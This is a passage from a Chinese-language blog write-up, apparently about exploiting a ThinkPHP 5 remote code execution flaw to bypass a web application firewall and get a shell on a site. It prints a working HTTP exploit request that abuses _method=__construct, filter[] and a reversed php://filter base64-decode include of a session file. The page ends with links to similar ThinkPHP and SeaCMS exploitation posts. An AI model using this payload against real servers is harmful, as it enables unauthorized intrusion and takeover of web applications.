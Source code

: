 (`payload`前后两个`ab`同样是为了`base64`解码凑字符的原因)

2，文件包含

```


1.  `POST /?s=captcha&r=cGhwaW5mbygpOw==`

3.  `_method=__construct&filter[]=strrev&filter[]=think\__include_file&method=get&server[]=1&get[]=tsetkk_sses/pmt/=ecruoser/edoced-46esab.trevnoc=daer/retlif//:php`


```

![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMTAtZGFiM2I4YjQtYzc5Yy0xLnBuZw==.jpg)

最终成功绕过防火墙`getshell`。

0x03 总结
-------

总的来说挺有趣的，搞了很久，最终成功`getshell`也是非常的爽。（好在没放弃：）  
不妥之处，烦请指出~

(adsbygoogle = window.adsbygoogle || \[\]).push({});

[记一次有趣的thinkphp代码执行的更多相关文章](/R/KE5Q8kQPJL/)
-------------------------------------------

1.  [记一次有趣的tp5代码执行](https://www.shuzhiduo.com/A/o75NEg6PJW/)
    
    0x00 前言 朋友之前给了个站,拿了很久终于拿下,简单记录一下. 0x01 基础信息 漏洞点:tp 5 method 代码执行,payload如下 POST /?s=captcha \_method= ...
    
2.  [thinkphp 代码执行](https://www.shuzhiduo.com/A/D8542qwQzE/)
    
    相关漏洞:http://loudong.360.cn/vul/info/id/2919 ThinkPHP 开启lite模式后,会加载ThinkPHP/Extend/Mode/Lite/Dispache ...
    
3.  [记一次海洋cms任意代码执行漏洞拿shell(url一句话)](https://www.shuzhiduo.com/A/KE5Q8x3ZJL/)
    
    实验环境:海洋CMS6.54(后续版本已该洞已补) 1.后台登录尝试 这个站点是个测试站,站里没什么数据. 进入admin.php,是带验证码的后台登录系统,没有验证码的可以用bp爆破.有验证码的也有 ...
    
4.  [Thinkphp 3.0-3.1版代码执行漏洞](https://www.shuzhiduo.com/A/VGzlVVL75b/)
    
    近日360库带计划中播报的ThinkPHP扩展类库的漏洞已经查明原因:系官方扩展模式中的Lite精简模式中存在可能的漏洞(原先核心更新安全的时候 并没有更新模式扩展部分,现已更新).对于使用标准模式或 ...
    
5.  [thinkphp 2.1代码执行及路由分析](https://www.shuzhiduo.com/A/pRdBypX75n/)
    
    Dispatcher.class.php这个文件中是url路由,由于第一次正式看路由那块,所以就从头开始一行一行看把. 首先是dispatch函数 是37行到140行 这个函数是做映射用,把url映射 ...
    
6.  [Thinkphp V5.X 远程代码执行漏洞 - POC（搬运）](https://www.shuzhiduo.com/A/KE5QrA6jdL/)
    
    文章来源:lsh4ck's Blog 原文链接: https://www.77169.com/html/237165.html Thinkphp 5.0.22   http://192.168.1.1 ...
    